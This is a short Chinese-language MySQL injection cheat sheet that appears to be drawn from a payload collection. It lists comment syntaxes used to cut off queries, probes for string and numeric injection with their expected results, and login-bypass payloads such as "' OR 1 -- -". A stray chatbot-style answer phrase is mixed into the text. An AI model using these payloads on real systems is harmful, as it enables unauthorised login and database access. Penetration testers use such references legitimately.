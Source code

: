 
## MySQL 注释

| 类型                       | 描述                      |
| -------------------------- | ------------------------- |
| `#`                        | 哈希注释                  |
| `/* MYSQL Comment */`      | C 风格注释                |
| `/*! MYSQL Special SQL */` | 特殊 SQL                  |
| `/*!32302 10*/`            | MySQL 版本 3.23.02 的注释 |
| `-- -`                     | SQL 注释                  |
| `;%00`                     | 空字节                    |
| \`                         | Backtick                  |

根据文档内容，以下是对您问题的回答：

**MySQL 注入测试**

**字符串：** 查询语句如 `SELECT * FROM Table WHERE id = 'FUZZ';`

测试数据及其结果如下：

```
'	False
''	True
"	False
""	True
\	False
\\	True
```

**数字：** 查询语句如 `SELECT * FROM Table WHERE id = FUZZ;`

测试数据及其结果如下：

```ps1
AND 1	    True
AND 0	    False
AND true	True
AND false	False
1-false	    如果存在漏洞则返回1
1-true	    如果存在漏洞则返回0
1*56	    如果存在漏洞则返回56
1*56	    如果不存在漏洞则返回1
```

**登录：** 查询语句如 `SELECT * FROM Users WHERE username = 'FUZZ1' AND password = 'FUZZ2';`

测试数据及其结果如下：

```ps1
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
